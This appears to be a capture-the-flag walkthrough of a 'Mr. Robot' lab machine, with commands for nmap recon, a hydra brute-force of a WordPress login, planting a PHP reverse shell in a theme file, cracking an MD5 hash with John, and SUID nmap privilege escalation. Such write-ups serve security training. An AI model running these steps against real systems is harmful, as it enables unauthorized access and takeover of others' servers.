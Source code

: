 # HTB – Mr. Robot Walkthrough

## Target IP
`10.129.1.17`

## Tools Used
- Nmap
- Hydra
- Netcat
- Burp Suite
- WordPress
- John the Ripper

## Steps Taken

### 1. Initial Recon

  ```bash
  nmap -sC -sV 10.129.1.17
  ```

Discovered: Port 80, Port 443

## 2. Gained Access
Brute-forced WordPress login with hydra

  ```bash

hydra -l elliot -P rockyou.txt 10.129.xx.xx http-form-post "/wp-login.php:user=^USER^&pass=^PASS^&wp-submit=Log In:F=incorrect"
  ```
Username: elliot, Password: ER28–0652

## 3. Reverse Shell

Logged into WordPress admin

Edited `404.php` theme file and pasted a PHP reverse shell

Set up a listener:

  ```bash
nc -lvnp 4444
  ```

Listener caught reverse shell from daemon

## 4. Privilege Escalation
Found MD5 hash → Cracked hash (c3fcd3d76192e4007dfb496cca67e13b) with John → Password: abcdefghijklmnopqrstuvwxyz

  ```bash
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
  ```

Switched to user robot

  ```bash
su robot
  ```

Exploited SUID nmap --interactive to escalate to root

## 5. Captured All Flags

  ```bash
cat /root/key-3-of-3.txt
  ```

  ```bash
cat /root/key-3-of-3.txt
  ```

## Flag Summary

key-1-of-3.txt

key-2-of-3.txt

key-3-of-3.txt

Rooted.
